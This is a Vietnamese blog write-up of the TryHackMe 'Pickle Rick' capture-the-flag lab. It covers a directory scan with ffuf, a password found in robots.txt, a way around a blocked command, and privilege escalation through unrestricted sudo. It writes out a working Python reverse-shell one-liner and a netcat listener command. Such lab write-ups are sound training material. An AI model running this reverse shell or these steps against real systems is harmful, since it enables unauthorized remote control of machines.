 ```yaml
---
title: Write-Up PICKLE RICK
date: 2023-10-14 12:34:01 +0700
categories: [CTF, TryHackMe, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
---
```

# PICKLE RICK

- Truy cập vào bài, ta thấy được trang web như sau

<img src="/assets/writeup/cookie/PICKLE RICK/Untitled.png">
- Có vẻ như không có gì khai thác nhiều ở đây, mình sẽ thử F12 view source xem thử có gì thú vị hơn không thì có vẻ như mình đã tìm được Username , hmmm nếu có username thì chắc hẳn phải có tồn tại một trang login, lúc này mình dùng tool scan để tìm xem có directory ẩn nào không!

<img src="/assets/writeup/cookie/PICKLE RICK/Untitled 1.png">

- Ở đây mình sử dụng FFUF

payload scan: `ffuf -u http://10.10.191.68/FUZZ -w common.txt -e .php,.txt,.html -t 50 -fc 403`

nếu bạn không hiểu payload scan của mình là gì, bạn có thể tham khảo trên mạng nhé.

<img src="/assets/writeup/cookie/PICKLE RICK/Untitled 2.png">

- Sau khi scan xong, mình tiến hành truy cập vào `/robots.txt`

<img src="/assets/writeup/cookie/PICKLE RICK/Untitled 3.png">

- Có vẻ như đây là mật khẩu, tiến hành truy cập vào /login.php và thử đăng nhập

<img src="/assets/writeup/cookie/PICKLE RICK/Untitled 4.png">

- Và có vẻ như mình đã vào được, xuất hiên 1 số chức năng khác tuy nhiên ở đây ta đặc biệt chú ý đến Comman Panel, mình thử dùng ls thì có vẻ như đích đã đến!, tuy nhiên mọi chuyện lại không đơn giản như vậy 😟

<img src="/assets/writeup/cookie/PICKLE RICK/Untitled 5.png">

- Khi mình dùng cat thì có vẻ như bài này đã chặn mất

<img src="/assets/writeup/cookie/PICKLE RICK/Untitled 6.png">

- Tuy nhiên trong linux, ta có rất nhiều cách để đọc, thay vì cat mình đổi sang thử dùng less

<img src="/assets/writeup/cookie/PICKLE RICK/Untitled 7.png">

- Vậy là ta đã có được flag đầu tiên, tiếp tục tìm cái thứ 2 thì mình được bài hint như sau

<img src="/assets/writeup/cookie/PICKLE RICK/Untitled 8.png">

- Sau khi dạo 1 vòng trang web này mình mình chả thấy có gì để khai thác tiếp, có vẻ như lúc này ta cần phải dùng đến kĩ thuật Reverse Shell rồi, nếu bạn chưa biết có thể tham khảo tại [ĐÂY](https://www.youtube.com/watch?v=S99C5jNkOgA&ab_channel=TheLinuxPoint).
- Ở đây mình thay địa chỉ ip và port thành như hình nhé, nếu bạn làm thì hãy thay ip của bạn và port tùy thích.

```python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")’
```

<img src="/assets/writeup/cookie/PICKLE RICK/Untitled 9.png">

<img src="/assets/writeup/cookie/PICKLE RICK/Untitled 10.png">

- Mình dùng `nc -lvp 444` lệnh này sẽ mở cổng 444 trên máy và lắng nghe các kết nối đến. Netcat được dùng phổ biến để điều khiển socket TCP/UDP và được dùng trong revertShell
- Lúc này ta đã kết nối được, ta tiến hành tìm flag, trong bài này thì flag 2 được dấu ở `/home/rick`

<img src="/assets/writeup/cookie/PICKLE RICK/Untitled 11.png">

- Ở đây mình dùng sudo -l để kiểm tra xem tập tin nào chạy dưới quyền root, tuy nhiên theo hình dưới thì ta có thể dùng sudo 1 cách thoải mái mà không bị giới hạn
    
<img src="/assets/writeup/cookie/PICKLE RICK/Untitled 12.png">
    
    - và flag cuối cùng ở `/root`
    
<img src="/assets/writeup/cookie/PICKLE RICK/Untitled 13.png">
